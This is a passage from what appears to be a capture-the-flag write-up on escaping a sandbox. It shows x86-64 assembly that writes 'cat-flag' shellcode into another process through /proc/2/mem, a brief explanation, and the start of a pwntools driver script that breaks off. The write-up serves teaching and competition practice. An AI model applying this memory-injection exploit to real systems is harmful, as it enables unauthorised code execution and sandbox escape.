 ```Assembly

    movq %rsp, %rbx                         # shellcode 'cat-flag' at ($rbx), len=90 (0x5a)

    movq $0x01000000006d656d, %rdi          # the 0x01 at the beginning is used to force 
                                            # an 8 byte instruction. It makes replacing 
                                            # the PID much easier
    pushq %rdi
    movq $0x2f322f636f72702f, %rdi
    pushq %rdi
    movq %rsp, %rdi                         # "/proc/2/mem" at ($rdi)

    movq $0x1, %rsi
    movq $0x2, %rax
    syscall                                 # open("/proc/2/mem", O_WRONLY)

    movq %rax, %rdi
    movq $0x4022e3, %rsi                    # 0x4022e3 is the addr where we place the code
    movq $0x1, %rdx
    movq $0x8, %rax
    syscall                                 # lseek(fd = %rdi, 0x4022e3, SEEK_CUR)

    movq %rbx, %rsi
    movq $0x5a, %rdx
    movq $0x1, %rax
    syscall                                 # write(fd = %rdi, shellcode = (%rsi), 90)

    addq $0x70, %rsp                        # undo all our push operations
    popq %rdi
    addq $0xe7, %rdi                        # recover instruction pointer to setup loop

    movq $0x18, %rax                        # syscall 24 = sched_yield
    syscall
    jmp *%rdi                               # infinite loop: sched_yield()
                                            # we loop here until the child process wakes
                                            # from sleep(1)

    xor %rdi, %rdi
    movq $0x3c, %rax
    syscall                                 # exit(0) nicely, because why not?
```

I simply chose to push the to-be-injected shellcode onto the stack. 
The rest of the code is pretty straight forward and is similiar to `cat-flag.s`.
The loop at the end is needed to wait until the `sleep(1)` in `check_flag()` returns.
It would be very sad if we kill the service before the process was able to execute our injected shellcode, wouldn't it?

### Escaping the Sandbox

Finally we only need a driver script which sends the appropriate shellcode to the service:
```python
# file exploit.py

from pwn import *
import re
import sys


# this is inject.s
```